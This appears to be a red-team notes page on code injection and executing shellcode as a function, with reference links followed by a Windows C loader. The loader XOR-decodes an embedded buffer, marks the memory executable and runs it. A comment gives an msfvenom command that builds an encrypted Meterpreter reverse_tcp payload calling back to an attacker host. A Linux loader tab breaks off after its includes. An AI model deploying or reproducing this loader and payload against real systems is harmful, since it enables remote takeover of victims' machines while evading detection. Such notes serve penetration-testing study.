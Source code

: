 # Code Injection

- [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
- [https://blog.xpnsec.com/weird-ways-to-execute-dotnet/](https://blog.xpnsec.com/weird-ways-to-execute-dotnet/)
- [https://gitlab.com/users/ORCA666/projects](https://gitlab.com/users/ORCA666/projects)
- [https://github.com/itaymigdal/awesome-injection](https://github.com/itaymigdal/awesome-injection)




## Shellcode as Function

- [http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/](http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/)
- [https://www.fergonez.net/post/shellcode-csharp](https://www.fergonez.net/post/shellcode-csharp)
- [https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis](https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis)
- [https://github.com/byt3bl33d3r/OffensiveNim/issues/16](https://github.com/byt3bl33d3r/OffensiveNim/issues/16)
- [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c)
- [https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1)

{% tabs %}
{% tab title="Windows" %}
{% code title="loader.c" %}
```c
#include <windows.h>
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f raw -o met.bin --encrypt xor --encrypt-key a
// xxd -i met.bin > shellcode.h
#include "shellcode.h"

int main() {
    DWORD lpThreadId = 0;
    DWORD flOldProtect = 0;
    int bufsize = sizeof(buf);
    LPVOID f = VirtualAlloc(NULL, bufsize, MEM_RESERVE|MEM_COMMIT, PAGE_READWRITE);
    for (int i = 0; i < (int)bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
    memcpy(f, buf, bufsize);
    VirtualProtect(f, bufsize, PAGE_EXECUTE_READ, &flOldProtect);
    ((void(*)())f)();
    //VirtualFree(f, 0, MEM_RELEASE);
    WaitForSingleObject((HANDLE)-1, -1);
    return 0;
}
```
{% endcode %}
{% endtab %}
{% tab title="Linux" %}
{% code title="loader.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

```